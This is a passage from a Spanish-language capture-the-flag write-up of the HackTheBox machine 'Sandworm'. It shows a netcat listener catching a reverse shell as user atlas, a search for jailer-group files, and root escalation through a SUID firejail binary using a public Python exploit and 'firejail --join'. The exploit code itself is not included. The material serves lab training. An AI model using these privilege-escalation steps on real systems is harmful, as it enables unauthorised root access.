 Debemos esperar a que se compile el binario `/opt/tipnet/target/debug/tipnet` para recibir la shell. Es posible que no funcione a la primera porque la máquina restaura los archivos.

```bash
$ nc -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.218.
Ncat: Connection from 10.10.11.218:45960.
bash: cannot set terminal process group (38829): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
atlas@sandworm:/opt/tipnet$ hostname -I
hostname -I
10.10.11.218
atlas@sandworm:/opt/tipnet$
```

### Obtener root

Estamos de nuevo como `atlas` pero fuera de firejail, estamos como miembro de un grupo raro llamado `jailer`, podemos buscar con `find` a que tenemos acceso.

```bash
atlas@sandworm:~$ find / -group jailer -ls 2>/dev/null
     1344   1740 -rwsr-x---   1 root     jailer    1777952 Nov 29  2022 /usr/local/bin/firejail
```

Vemos el binario `firejail` que es **SUID** y el propietario es `root`, si lo ejecutamos para ver la versión podemos indagar si existen vulneabilidades.

Luego de investigar podemos ver varios articulos relacionados a **Privilege Escalation**. Tenemos este post de [exploit-notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/#firejail) donde se usa un script de **Python**.

Antes de ejecutarlo, necesitamos otra conexión como atlas, ya que el exploit debe ejecutarse y esperar a que se une a un PID de un servicio firejail ejecutandose, por lo que tener nuestra `id_rsa.pub` como `authorized_keys` en el directorio `.ssh` es lo mejor.

```bash
atlas@sandworm:/tmp/tmp.E649KRelDj$ python3 exploit.py
You can now run 'firejail --join=40143' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

En la otra conexión debemos ejecutar ese comando tal cual nos lo da y luego ejecutar `su -` para acceder como `root`.

```bash
atlas@sandworm:~$ firejail --join=40143
changing root to /proc/40143/root
Warning: cleaning all supplementary groups
Child process initialized in 6.76 ms
atlas@sandworm:~$ su -
root@sandworm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sandworm:~# cat root.txt
e48**************************655
```
